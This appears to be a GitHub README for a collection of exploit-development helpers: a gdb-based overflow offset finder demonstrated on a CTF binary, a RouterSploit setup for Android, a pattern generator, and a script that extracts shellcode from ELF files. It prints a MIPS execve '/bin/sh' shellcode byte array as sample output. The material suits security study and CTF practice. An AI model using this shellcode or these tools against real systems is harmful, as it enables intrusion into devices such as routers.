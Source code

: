 # shellcode_tools
A collection of useful tools for writing shellcode 

### getOverFlowOffset

* Requirements
   * gdb
   * patternLocOffset.py
   * [pygdbmi](https://github.com/cs01/pygdbmi)
      * `pip install pygdbmi`

* Usage
```
[+] Usage: python getOverFlowOffset.py [vul_ret_address] [vul_program]
[+] Hints: you give me vul_ret_address, I give you the offset :)
[*] Example: python getOverFlowOffset.py 0x080484BD example_bin/xdctf
```
   * The example in example/bin
   
```
$ python getOverFlowOffset.py 0x080484BD example_bin/xdctf15-pwn200
[+] Found offset to the EBP is 108.
[+] THe offset to the RET_ADDR is 112 (32bits) or 116 (64bits).
```



### Android_routersploit

Setup the RouterSploit on Android based on termux.  [Procedure](https://github.com/desword/shellcode_tools/tree/master/Android_routersploit) 

<img src="https://github.com/desword/shellcode_tools/blob/master/img/android_sploit.jpg" width = 50% height = 50% div align=center />

### patternLocOffset.py

For generating a string to  calculate the offset of RA. 

### shell_extractor.py

In traditional, we need to find the corresponding shellcode using IDA pro. For example, 

![](https://p4.ssl.qhimg.com/t01d815b0c57399c2de.png)

Then we copy the binary and reconstruct them into the following formats:

![](https://p3.ssl.qhimg.com/t0188a9ffa755bb99ab.png)

We can find that there are lots of work for the above purpose. Therefore, I have developed a simple tool to extract the shellcode in binary form automatically from the ELF. 
With the following simple instructions, we can extract the shellcode in binary form conveniently for C testing or python testing. 


```python
   $ python shell_extractor.py execve c
   char shellcode[] = {
   "\x24\x06\x06\x66"
   "\x04\xd0\xff\xff"
   "\x28\x06\xff\xff"
   "\x27\xbd\xff\xe0"
   "\x27\xe4\x10\x01"
   "\x24\x84\xf0\x1f"
   "\xaf\xa4\xff\xe8"
   "\xaf\xa0\xff\xec"
   "\x27\xa5\xff\xe8"
   "\x24\x02\x0f\xab"
   "\x00\x00\x00\x0c"
   "\x2f\x62\x69\x6e"
   "\x2f\x73\x68\x00"
   };
```

The general usage is:

```bash
 [+] usage: python shell_extractor.py [filename] [format]
 [*] where format can be c or py
 ```
 
The core component is to use the command "readelf –S execve" to obtain the offset and size of the section .text. Then the format is generated accordingly.

![](https://p2.ssl.qhimg.com/t016872b10fb2dc2771.png)

For example, 0xd0 is the offset of the shellcode, while 0x30 is the size of the shellcode.


The original article can be found at: [路由器漏洞复现终极奥义——基于MIPS的shellcode编写](https://www.anquanke.com/post/id/153725)
